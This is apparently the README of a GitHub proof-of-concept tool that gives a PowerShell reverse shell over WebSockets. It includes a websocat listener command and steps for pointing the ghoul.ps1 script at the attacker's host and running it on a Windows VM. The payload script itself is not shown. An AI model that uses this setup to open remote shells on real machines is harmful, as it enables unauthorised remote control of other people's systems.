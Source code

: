 # ghoul
Powershell reverse shell via WebSockets

> [!IMPORTANT]
> The code in this repository is a proof of concept.
> The end user is solely liable for their actions.
> Read the [license](https://github.com/lavafroth/cloakshell/blob/main/LICENSE) for more details.

### Prerequisites

- [Websocat](https://github.com/vi/websocat) installed
- A Windows VM

#### Quickstart

On the host machine, spin up a listener.

```sh
websocat -s 42069 -b
```

In `ghoul.ps1`, change the IP address for the `$endpoint` variable to your host's IP address.
Now run it in the VM.

```
.\ghoul.ps1
```
